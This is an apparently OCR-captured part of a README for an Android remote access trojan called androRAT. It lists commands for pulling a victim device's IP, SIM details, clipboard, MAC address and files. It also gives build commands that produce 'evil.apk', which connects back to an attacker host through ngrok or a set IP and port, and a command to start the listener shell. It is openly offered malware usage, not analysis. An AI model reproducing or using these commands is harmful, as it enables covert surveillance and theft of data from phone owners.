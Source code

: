 | `getIP`                        | Get IP address                                  |
| `getSimDetails`                | Get details of installed SIM cards              |
| `clear`                        | Clear screen                                     |
| `getClipData`                  | Get clipboard text                               |
| `getMACAddress`                | Get MAC address of device                        |
| `exit`                         | Exit the interpreter                            |

---

### 📂 Shell Sub-Commands

| Sub-Command                     | Description                                           |
|----------------------------------|-------------------------------------------------------|
| `get [full_file_path]`           | Download file (up to 15MB) to local machine           |
| `put [filename]`                 | Upload file to Android device                         |

---

## 💡 Examples

- **Build an APK using ngrok:**
  ```bash
  python3 androRAT.py --build --ngrok -o evil.apk
  ```

- **Build with specific IP and port:**
  ```bash
  python3 androRAT.py --build -i 192.168.x.x -p 8000 -o evil.apk
  ```

- **Start an interpreter shell:**
  ```bash
  python3 androRAT.py --shell -i 0.0.0.0 -p 8000
  ```

---

## ✅ Supporters
- **rayep**

---

## 📌 TODO

- ✅ Ngrok support  
- ✅ Multi-client support  
- ✅ Screenshot command  

---

## 📝 License

**Uday Raut License**

---


